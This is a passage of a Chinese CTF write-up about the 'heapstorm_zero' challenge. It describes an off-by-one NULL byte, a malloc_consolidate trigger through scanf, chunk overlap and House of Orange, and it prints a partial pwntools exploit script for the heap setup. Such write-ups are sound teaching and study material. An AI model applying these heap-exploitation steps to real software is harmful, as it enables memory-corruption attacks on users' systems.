 #### 踩到的各种坑...

解题方法原wp已经说的很清楚了，**主要就是offbyone,和scanf触发malloc_consolidate，最后通过chunk_overlap泄露地址，然后house of orange**。和原来的unsorted chunk NULL byte prison不同的地方是原来是通过直接free一个small_chunk，这样就可以后向合并了，而这里需要通过malloc_consolidate来达到合并的效果。
这里只是说下我碰到的不知道的地方。
先放上我的exp，以便后面说明.
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
a=process("./heapstorm_zero")
context.terminal=["tmux","splitw","-h"]
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def debug():
    gdb.attach(a,'''
    b *(0x555555554000+0x0000000000010F6)
    b *(0x555555554000+0x000000000001296)    
    ''')
#add,delete
def menu(index):
    a.recvuntil("Choice:")
    a.sendline(str(index))
def add(size,content):
    menu(1)
    a.recvuntil("size:")
    a.sendline(str(size))
    a.recvuntil("Please input chunk content:")
    a.send(content)
def delete(index):
    menu(3)
    a.recvuntil("Please input chunk index: ")
    a.sendline(str(index))
def show(index):
    menu(2)
    a.recvuntil("Please input chunk index:")
    a.sendline(str(index))
def malloc_consolidate():
    a.recvuntil("Choice:")
    a.sendline("1"*0x500)

add(0x38,'0\n')#0 0

add(0x38,'1\n')#1 0x40
add(0x38,'2\n')#2 0x80
add(0x38,'3\n')#3 0xc0
add(0x38,'4\n')#4 0x100
add(0x38,'5\n')#5 0x140

add(0x38,'6\n')#6 0x180

add(0x38,'7\n')#7 0x1c0
add(0x38,'8\n')#8 0x200
add(0x38,'9\n')#9 0x240
add(0x38,'10\n')#10 0x280

for i in range(1,6):
    delete(i)

malloc_consolidate()

add(0x28,'\x00'*0x28)#1, 0x40, offbyNULL, unsorted chunksize 0x140 ==> 0x100 
add(0x38,'\n')#2 0x70
add(0x38,'\n')#3 0xb0
```